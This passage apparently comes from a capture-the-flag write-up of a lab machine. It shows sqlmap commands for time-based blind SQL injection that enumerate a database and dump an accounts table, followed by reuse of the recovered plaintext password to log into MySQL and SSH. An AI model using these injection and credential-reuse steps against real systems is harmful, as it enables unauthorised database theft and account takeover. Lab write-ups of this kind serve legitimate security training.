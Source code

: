 ```
    password hash: NULL
```

That doesn't really inspire confidence...

Ok, back to the original plan: use the **time based blind SQL injection** to see what else MySQL has for us. Of the databases discovered during the previous enumeration attempt, the database **soccer_db** looks most interesting. Let's find out what tables it contains:

```bash
sqlmap -u "http://localhost:8081/?id=1" -p id -D soccer_db --tables --batch
```

> This wasn't too bad, actually. It only took a few minutes.

```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Whew, thank goodness: only one table. Let's dump the contents:

```bash
sqlmap -u "http://localhost:8081/?id=1" -p id -D soccer_db -T accounts --dump-all --batch
```

```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

Nice. Storing passwords in plaintext - always a smart move 😉
So we've obtained a new credential: **player** / **PlayerOftheMatch2022**

Keeping credential re-use in mind, let's try logging into mysql locally using the above credential:

![mysql successful](mysql%20successful.png)

Success! Now that I'm not waiting hours for a time based blind SQL injection, I'll take a look at the rest of the database.

> Result: aside from **soccer_db**, all tables were mysql system tables.
> There was no information of immediate importance.

We already know that **SSH** is running on the box, so it makes sense to try the **player** credential there, too.

🎉 Awesome! That credential was successful for **SSH**. We're now logged in as **player**:

![player ssh](player%20ssh.png)
